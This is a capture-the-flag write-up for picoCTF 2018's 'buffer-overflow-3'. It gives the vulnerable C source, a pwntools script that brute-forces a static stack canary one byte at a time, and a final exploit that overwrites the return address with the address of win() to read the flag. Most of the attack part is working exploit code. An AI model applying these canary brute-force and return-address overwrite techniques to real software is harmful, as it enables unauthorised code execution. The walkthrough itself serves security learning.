

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### vuln.c

A bufsize and canary are delared here. A canary is a type of security that helps prevent buffer overflows by placing a value after a buffer, before the return address that can be reverified before a program returns to the main function. This means if we overflow the buffer to control EIP then we will also change the canary value and the program will crash before we can pwn it

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 32
#define FLAGSIZE 64
#define CANARY_SIZE 4
```

Here we have our win function that reads the flag and a read_canary() function that takes a canary from canary.txt. This means our canary should be static and has a possibility of being brute forced since the binary is 32bit.
```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("Canary is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}
```

The location of our vulnerability where we will take advantage of a convenient scanf
```c
void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

First we will use part of our python script to brute force the canary. We will use the string library to test all printable ascii characters one at a time. The idea here is that if we fill the buffer with 32 characters the next character will be the first value of the 4byte canary. So we can test one at a time until we have all four. I chose to run this locally then ssh into the server and run my python script there to save time.

```python
#!/usr/bin/env python

from pwn import *
import sys
import string

#get arg # and determine if local or remote
argc = len(sys.argv)

#get ELF addresses
e = ELF('./vuln')
win = e.symbols['win']

#buf amount
buf = 32

context.log_level = 'critical'

# if argc > 2:
# 	from getpass import getpass
# 	ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
# 	p = ssh.process('vuln', cwd='/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf')
# else:
# 	p = process('./vuln')
canary = ''

while len(canary) < 4:
	for char in string.printable:
		test = canary+char
		payload = ''
		payload+= 'A'*buf
		payload+= test
		p = process('./vuln')
		p.sendlineafter('> ', str(len(payload)))
		p.sendlineafter('Input> ', payload)
		if "Ok... Now Where's the Flag?" in p.recvall():
			canary+= char
			break
		else:
			p.close()
print "Canary: " + canary
```

Heres the results:

```
ems3t@pico-2018-shell:/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf$ python /tmp/ems3t/buf3.py 
[*] '/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
Canary: IHwj
ems3t@pico-2018-shell:/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf$ 
```
So now we can hardcode our canary and find the buffer required to control EIP. I loaded up gdb and set a breakpoint on the ret in vuln. Run the program and submit 36 as our write amount then 32 "A"s to fill the buffer and add our 4byte canary on the end. We hit our break point and examine the stack to find the distance between our canary and the return address value. Looks like 16 characters will fill the buffer up to the point of the return address where we can stick our win function



## Strategy

1. Build our payload consisting of 32 A's to fill the buffer + canary + 16 A's to fill the rest of the buffer to the ret address + win() function address
2. Send our write value as len(payload).
3. Send our payload

### apple.py

```python
#!/usr/bin/env python

from pwn import *
import sys
import string

#get arg # and determine if local or remote
argc = len(sys.argv)

#get ELF addresses
e = ELF('./vuln')
win = e.symbols['win']

#buf amount
buf = 32

context.log_level = 'critical'

canary = 'IHwj'

while len(canary) < 4:
	for char in string.printable:
		test = canary+char
		payload = ''
		payload+= 'A'*buf
		payload+= test
		p = process('./vuln')
		p.sendlineafter('> ', str(len(payload)))
		p.sendlineafter('Input> ', payload)
		if "Ok... Now Where's the Flag?" in p.recvall():
			canary+= char
			break
		else:
			p.close()
print "Canary: " + canary

if argc > 1:
	from getpass import getpass
	ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
	p = ssh.process('vuln', cwd='/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf')
else:
	p = process('./vuln')

#build payload and send it
payload = ''
payload+= 'A'*buf
payload+= canary
payload+= 'A'*16
payload+= p32(win)
p.sendlineafter('> ', str(len(payload)))
p.sendlineafter('Input> ', payload)
print p.recvuntil('}')
```